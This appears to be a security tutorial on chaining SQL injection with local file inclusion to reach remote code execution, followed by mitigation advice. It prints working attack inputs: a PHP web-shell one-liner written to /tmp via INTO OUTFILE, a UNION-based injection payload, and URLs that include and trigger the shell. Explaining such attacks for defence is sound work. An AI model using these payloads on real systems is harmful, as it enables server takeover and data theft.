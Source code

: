 
### SQL Injection Combined with Local File Inclusion to Achieve Remote Code Execution (RCE)

**Concept Overview:**

SQL Injection (SQLi) and Local File Inclusion (LFI) are two critical vulnerabilities that, when combined, can lead to Remote Code Execution (RCE). This occurs when an attacker leverages SQL injection to manipulate the database and then uses LFI to include and execute a malicious file on the server.

**Exploitation Example:**

1. **SQL Injection to Write a Malicious PHP File:**

   By using SQL injection, an attacker can write a malicious PHP script to the server’s file system. This is done by executing a query that writes PHP code into a file. For example:

   ```sql
   SELECT "<?php system($_GET['c'])?>" INTO OUTFILE "/tmp/shell.php";
   ```

   - **Explanation:**
     - `<?php system($_GET['c'])?>`: This PHP code snippet allows the execution of commands passed via the `c` parameter in the URL.
     - `INTO OUTFILE "/tmp/shell.php"`: This specifies the location and name of the file where the PHP code will be written.

2. **Triggering the Malicious PHP File:**

   Once the PHP file is created, it can be accessed via the web server. By navigating to the URL where the file is hosted, the attacker can execute arbitrary commands. For example:

   ```
   http://192.168.1.2/tmp/shell.php?c=ls
   ```

   - **Explanation:**
     - `c=ls`: This parameter is passed to the `system()` function in the PHP code, which executes the `ls` command on the server, listing files in the directory.

**Practical Application:**

1. **SQL Injection Payload:**

   To inject and write the PHP file, the attacker might use a payload in a vulnerable SQL query parameter:

   ```
   1' UNION ALL SELECT "<?php system($_GET['c'])?>" INTO OUTFILE "/tmp/shell.php" --+
   ```

   This payload assumes that the application is vulnerable to SQL injection and allows the use of the `UNION ALL` operator to execute the injection and create the file.

2. **Local File Inclusion (LFI) Vulnerability:**

   After the malicious file is created, the attacker needs to find a way to include or access this file. If the application is vulnerable to LFI, it might allow including files from the server's file system. For instance:

   ```
   http://192.168.1.2/index.php?page=/tmp/shell.php
   ```

   This URL assumes that the `page` parameter in the `index.php` script is vulnerable to LFI and allows the inclusion of files from the server.

**Mitigation Strategies:**

1. **SQL Injection Prevention:**
   - Use parameterized queries and prepared statements.
   - Employ ORM frameworks to abstract SQL queries.
   - Validate and sanitize user inputs.

2. **File System Permissions:**
   - Restrict file write permissions for web server processes.
   - Disable file writing functions where not needed.

3. **Local File Inclusion Prevention:**
   - Avoid allowing user input to directly influence file paths.
   - Implement robust input validation and sanitation.

**Conclusion:**

Combining SQL Injection with Local File Inclusion can lead to severe security breaches, including Remote Code Execution. It is crucial to implement proper security measures to prevent such vulnerabilities and safeguard the integrity of web applications.

